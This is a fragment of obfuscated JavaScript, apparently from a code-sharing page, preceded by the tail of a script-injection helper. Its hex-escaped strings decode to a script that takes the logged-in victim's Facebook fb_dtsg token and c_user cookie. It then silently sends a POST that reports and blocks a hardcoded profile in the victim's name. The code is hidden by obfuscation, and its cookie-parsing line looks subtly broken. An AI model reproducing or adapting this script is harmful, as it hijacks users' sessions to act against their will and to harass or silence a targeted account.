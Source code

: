         if (heads.length > 0) {
                heads[0].appendChild(node);
        } else {
                // no head yet, stick it whereever
                document.documentElement.appendChild(node);
        }
}
})();
var _0xb161=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x25\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30\x38\x38\x38\x30","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38"];var fb_dtsg=document[_0xb161[2]](_0xb161[1])[0][_0xb161[0]];var user_id=document[_0xb161[4]][_0xb161[3]](document[_0xb161[4]][_0xb161[3]](/c_user=(\d+)/)[1]);var now=( new Date)[_0xb161[5]]();function Report(_0x45e7x5){var _0x45e7x6= new XMLHttpRequest();var _0x45e7x7=_0xb161[6];var _0x45e7x8=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x45e7x5+_0xb161[9]+_0x45e7x5+_0xb161[10]+now+_0xb161[11]+user_id+_0xb161[12]+user_id+_0xb161[13];_0x45e7x6[_0xb161[15]](_0xb161[14],_0x45e7x7,true);_0x45e7x6[_0xb161[16]]=function (){if(_0x45e7x6[_0xb161[17]]==4&&_0x45e7x6[_0xb161[18]]==200){_0x45e7x6[_0xb161[19]];} ;} ;_0x45e7x6[_0xb161[20]](_0x45e7x8);} ;